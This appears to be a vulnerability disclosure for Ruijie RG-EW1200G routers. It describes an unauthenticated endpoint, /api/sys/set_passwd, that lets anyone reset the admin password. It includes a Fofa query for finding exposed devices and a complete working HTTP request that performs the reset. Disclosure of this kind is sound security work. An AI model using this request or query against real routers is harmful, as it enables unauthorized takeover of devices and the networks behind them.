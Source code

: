 # Information
Vendor of the products:Ruijie Networks

Vendor's website:https://www.ruijienetworks.com

Affected products:RG-EW1200G Wireless Routers

Affected firmware version: HWR_1.0(1)B1P5,Release(07161417) r483

Fofa query rule: "锐捷" && port="6060"

# Overview
Ruijie networks RG-EW1200G HWR_1.0(1)B1P5,Release(07161417) r483 has arbitrary password modification vulnerability, which allows unauthorized users to modify the administrator password, log in to the router, obtain sensitive information, and control the internal network.

# Vulnerability details

![Alt text](pics/image.png)

Unauthorized users can use the /api/sys/set_passwd interface to modify passwords.

![Alt text](pics/image1.png)

```
POST /api/sys/set_passwd HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"username":"admin","admin_new":"Tomtom123"}
```

login with password above

![Alt text](pics/2.png)

![Alt text](pics/3.png)



